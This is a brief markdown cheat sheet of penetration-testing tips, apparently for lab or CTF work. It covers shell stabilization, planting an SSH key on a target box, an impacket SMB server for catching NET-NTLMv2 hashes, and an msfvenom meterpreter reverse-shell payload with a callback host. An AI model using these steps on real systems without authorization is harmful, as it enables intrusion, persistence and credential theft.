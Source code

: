 ```yaml
---
title: Random Tips and Tricks
published: true
---
```


### [](#header-3)To stabilize a bash shell:
```shell
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press enter twice
export TERM=xterm
```

### [](#header-3)Adding an SSH key to a box:
```shell
On Kali, generate a key:
    ssh-keygen -t rsa
Next, copy the public key over to the users /home/.ssh/authorized_keys file
Then, simply ssh in using the private key:
    ssh -i <key name> username@host
```

### [](#header-3)Cleaning an SSH key:
```shell
Sometimes you may need to copy and paste an SSH key, and it's supposed to work... but it's not. You may need to remove bad chars and clean it up:

chmod 600 id_rsa
dos2unix id_rsa
vi --clean id_rsa
inside vi: (esc) + wq
ssh -i id_rsa username@host
```

### [](#header-3)Serving an SMB server with impacket:
```shell
impacket-smbserver evil ./ -smb2support
```
It's good practice to use the smb2support flag. If you see a connection come through that doesn't provide a NET-NTLMv2 it could be because you set up
the smb server without smb2 support.

### [](#header-3)Setting up python virtual environments:
```shell
python3 -m venv myenv

source myenv/bin/activate

pip install -r requirements.txt (replace with whatever command is needed to install whatever it is your doing)
```

### [](#header-3)Call tools globally on linux regardless of user:
```shell
Move the tools to:
/usr/local/bin
```

### [](#header-3)Generic usage of msfvenom:
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.245 LPORT=4444 -f aspx -o shell.aspx
```


